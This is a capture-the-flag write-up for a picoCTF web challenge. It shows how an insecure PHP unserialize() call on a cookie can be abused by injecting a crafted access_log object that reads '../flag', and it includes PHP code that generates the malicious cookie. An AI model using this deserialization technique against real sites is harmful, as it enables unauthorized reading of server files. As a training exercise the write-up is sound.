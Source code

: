 ## Description
Try to recover the flag stored on this website http://mercury.picoctf.net:14804/

## Hints
The flag is at ../flag
## Approach
1. By checking `robots.txt`, we can find `Disallow: /admin.phps`, this means we can append `s` to other pages to see the source code.

2. Check `/index.phps`, we can find
```
setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
```
It looks like this site use the cookie `login` to determine the users. Besides, the `login` will be encoded. However, if  randomly creating a login cookie, we can't get anything useful.

3. Try to access `/authentication.phps` we found in `index.phps`.

4. We can find `require_once("cookie.php");` here, it means `cookie.php` will be embedded into `authentication.php`, like the code below:
```
class access_log{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
.
.
.
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
.
.
.
```

5. We can find `access_log` can access log, which is our goal. So, now we want to do is to use `access_log` to retrice `../flag`

6. Also, we can find `die("Deserialization error. ".$perm);`. This is a good chance to print out the file.

7. Therefore, we want to make 
```
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])))
```
become 
```
$perm = new access_log("../flag")
```
and then do something error to execute `die("Deserialization error. ".$perm)`;,

8. We can easily get the value of cookie `login` by the PHP code below:
```
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

echo(urlencode(base64_encode(serialize(new access_log("../flag")))));
```

9. Add cookie `login` with value, which we got by the above code.

10. So, when running 
```
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])))
```
In fact, it is
```
$perm = new access_log("../flag")
```
And then when running `$g = $perm->is_guest();`, it will throw an error because the `class access_log` doesn't have the function `is_guest`.

11. `die("Deserialization error. ".$perm);` will print string `$perm.__toString()`, which will read the file we just defined in constructor.

